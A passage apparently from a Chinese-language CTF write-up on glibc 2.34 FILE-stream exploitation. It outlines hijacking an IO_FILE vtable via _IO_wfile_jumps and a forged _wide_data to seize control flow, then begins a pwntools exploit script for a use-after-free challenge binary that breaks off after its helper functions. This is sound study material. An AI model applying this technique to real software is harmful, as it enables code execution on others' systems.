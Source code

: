 exp:

1. 劫持 `IO_FILE` 的 `vtable` 为 `_IO_wfile_jumps` 
2. 控制 `_wide_data` 为可控的堆地址空间
3. 控制 `_wide_data->_wide_vtable` 为可控的堆地址空间
4. 控制程序执行`IO`流函数调用，最终调用到 `_IO_Wxxxxx` 函数控制程序的执行流

给出一个本地2.34版本 Glibc 劫持 vtable 的 exp

```python
# template-v2.0 for exploit scripts by fa1c4
# usage: python exp.py [REMOTE|GDB|NULL]
'''
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    vuln: UAF in Del function
'''
from pwn import *

# define the context
binary_name = './oneday'
libc_name = './libc.so.6' if args.REMOTE \
    else './libc.so.6'
elf = ELF(binary_name, checksec=True) if binary_name else None
libc = ELF(libc_name, checksec=False) if libc_name else None
context.binary = elf
context(arch=elf.arch, os=elf.os)
context.terminal = ['tmux', 'splitw', '-h']
context.log_level = 'DEBUG'

# define the io functions
rc  = lambda *x, **y: io.recv(*x, **y)
rl  = lambda *x, **y: io.recvline(*x, **y)
ru  = lambda *x, **y: io.recvuntil(*x, **y)
sn  = lambda *x, **y: io.send(*x, **y)
sl  = lambda *x, **y: io.sendline(*x, **y)
sa  = lambda *x, **y: io.sendafter(*x, **y)
sla = lambda *x, **y: io.sendlineafter(*x, **y)

# define the io object
if args.REMOTE:
    io = remote('challenge.ctf.games', 30269)
elif args.GDB:
    io = gdb.debug(binary_name, gdbscript="""
        # brva 0x2333
        b free
        c
    """, aslr=False)
else:
    io = process(binary_name)

# exploiting code
key, small, medium, large = 10, 1, 2, 3

def Add(c):
    sla(b"enter your command: \n", b"1")
    sla(b"choise: ", str(c).encode())
  
def Del(i):
    sla(b"enter your command: \n", b"2")
    sla(b"Index: \n", str(i).encode())
  
```